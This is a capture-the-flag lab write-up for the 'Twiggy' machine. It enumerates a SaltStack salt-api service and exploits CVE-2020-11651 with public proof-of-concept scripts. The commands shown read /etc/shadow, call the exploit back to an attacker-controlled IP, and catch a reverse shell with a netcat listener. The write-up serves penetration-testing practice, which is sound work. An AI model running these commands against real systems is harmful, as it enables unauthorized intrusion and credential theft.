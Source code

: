 ```yaml
---
title: "Proving Grounds - Twiggy"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, SaltStack]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Twiggy was an insightful machine focused on exploiting a SaltStack vulnerability. 

The machine required initial enumeration to identify open services, followed by a specific focus on the web service running on port 8000. 

By identifying and leveraging the `salt-api` service, a known exploit for SaltStack 3000.1 was used to gain access and execute a reverse shell. 

This machine provided practical experience in handling and exploiting SaltStack configurations.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify SaltStack]
    B -->|Web Service on 8000| C[Explore SaltStack API]
    C -->|Find Exploit| D[Execute Exploit]
    D -->|Gain Access| E[Execute Reverse Shell]
    E -->|Obtain Access| F[Privilege Escalation]
    F -->|SaltStack Privilege Escalation| G[Capture Evidence]
    G -->|Success| H[Completion]
```


## Information Gathering

### Port Scan

---

- `nmap -sS -Pn -n -T4 -p- --open 192.168.177.62`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled.png)
    
- `nmap -sVC -Pn -n -p 22,53,80,4505,4506,8000 192.168.177.62`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%201.png)
    

## Enumeration

### HTTP 8080

---

- [http://192.168.177.62:8000/](http://192.168.177.62:8000/) → *This looks like some clients for the webserver.*
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%202.png)
    

So i decided to try access some url’s that are mistaken on purpose.

- [http://192.168.177.62:8000/local](http://192.168.177.62:8000/local) → *Powered by* CherryPy 5.6.0
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%203.png)
    

- `feroxbuster -u http://192.168.177.62:8000 -k -C 404,403,500  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%204.png)
    

- [http://192.168.177.62:8000/login](http://192.168.177.62:8000/login) → Says “Please log in”
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%205.png)
    

- `curl -X POST http://192.168.177.62:8000/login -d "username=admin&password=admin"` → Unauthorized
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%206.png)
    

- Intercepting the login request in the burp 
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%207.png)
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%208.png)
    
- Verifying the response of the requisition
    
    ```jsx
    HTTP/1.1 200 OK
    Server: nginx/1.16.1
    Date: Thu, 04 Jul 2024 20:29:32 GMT
    Content-Type: application/json
    Content-Length: 43
    Connection: close
    Access-Control-Expose-Headers: GET, POST
    Vary: Accept-Encoding
    Allow: GET, HEAD, POST
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Origin: *
    Www-Authenticate: Session
    Set-Cookie: session_id=178a37984d63e3d4ea4a4a39d686e300e2256436; expires=Fri, 05 Jul 2024 06:29:32 GMT; Path=/
    X-Upstream: salt-api/3000-1
    
    {"status": null, "return": "Please log in"}
    ```
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%209.png)
    

I also can get the same answer with this command:

- `curl -v -X GET http://192.168.177.62:8000/login`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2010.png)
    

It have the **`X-Upstream: salt-api/3000-1`.**

## Exploitation

### Salt-API

That information about the requisition, indicates the request was handled upstream by a service identified as `salt-api` version `3000-1`. This suggests the server might be running SaltStack, a configuration management tool.


- Search in the google for `salt-api/3000-1` → There’s an exploit for SaltStack 3000.1
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2011.png)
    

- [https://github.com/jasperla/CVE-2020-11651-poc/tree/master](https://github.com/jasperla/CVE-2020-11651-poc/tree/master)

- `python3 exploit.py -m 192.168.177.62 -r /etc/shadow`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2012.png)
    

Once that i wanted an reverse shell, this script wasn’t promisor, so i found this one:

- [https://github.com/bravery9/SaltStack-Exp/tree/master](https://github.com/bravery9/SaltStack-Exp/tree/master)

- `python3 exp.py --master 192.168.177.62 -lh 192.168.45.227 -lp 80`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2013.png)
    

- `rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Twiggy/Untitled%2015.png)